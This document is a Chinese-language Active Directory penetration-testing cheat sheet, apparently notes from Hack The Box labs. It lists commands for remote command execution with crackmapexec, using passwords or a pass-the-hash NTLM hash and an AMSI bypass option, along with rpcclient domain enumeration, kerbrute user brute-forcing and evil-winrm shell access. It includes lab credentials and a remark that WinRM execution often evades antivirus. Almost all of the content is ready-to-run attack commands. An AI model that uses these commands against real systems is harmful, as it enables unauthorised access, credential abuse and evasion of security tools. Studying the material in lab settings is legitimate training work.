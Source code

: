 # 域渗透工具

## crackmapexec

```
-x 通过cmd.exe 执行命令
-X 通过cmd.exe 调用执行powershell命令
crackmapexec smb 192.168.216.144 -u 'administrator' -p 'pass1234!' -x 'whoami'
或者使用ntlm hash
crackmapexec smb 192.168.216.144 -u 'administrator' -H 'aad3b435b51404eeaad3b435b51404ee:ff1a0a31d936bc8bf8b1ffc5b244b356' -x 'whoami'
默认情况下会自动选择登录域，-d可以指定域登录，-x 要执行的命令
CME将按以下顺序执行命令
1.wmiexec：通过WMI执行命令
2.atexe：通过Windows任务调度程序调度任务来执行命令
3.smbexec：通过创建和运行服务来执行命令

-X '$PSVersionTable' 使用查看powershell 版本环境命令 ，--amsi-bypass /path/payload 执行powershell
```

通过winrm执行命令很多情况下可以绕过一些杀软的拦截

```
crackmapexec wimri 192.168.216.144 -u 'administrator' -p 'pass1234!' -x 'whoami'
```

## rpcclient

```
 rpcclient -U bhult 10.10.10.193 --password=Fabricorp02@
```

```
# RPC 客户端
rpcclient -U "" -N 10.129.14.128
-U ""：空用户名，表示匿名登录。
-N：无需密码。
# 一些特殊命令，获取相关信息
srvinfo  # 服务器信息
enumdomains  # 枚举部署在网络中的所有域
querydominfo  # 提供已部署域的域、服务器和用户信息
netshareenumall  #     枚举所有可用的共享
netsharegetinfo <share>  # 提供有关特定共享的信息
enumdomgroups #枚举域组
enumdomusers  # 枚举所有域用户
queryuser <RID>  # 提供有关特定用户的信息
querygroup <RID>  # 提供有关特定组的信息
enumprivs #枚举权限
getdompwinfo #获取域密码信息
getusrdompwinfo 0x1f4 #获取用户域密码信息
querydispinfo #扩展有关用户及其描述的信息量
enumprints #枚举打印机
```



# 端口

## 53端口

## 88端口

**Kerberos 的**运行原则是验证用户身份，但不直接管理用户对资源的访问。这是一个重要的区别，因为它强调了该协议在安全框架中的作用。

使用[ropnop/kerbrute](https://github.com/ropnop/kerbrute)工具可以爆破域中的用户，账号密码

```
./kerbrute userenum --dc 10.10.10.193 -d FABRICORP.LOCAL  ../hackthebox/fuse-windows/id.list 
```

## 5985/5986

[winrm](https://github.com/Hackplayers/evil-winrm.git)提供一个linux连接winrm的shell

安装方法:

```
gem install evil-winrm
```

```
evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
```

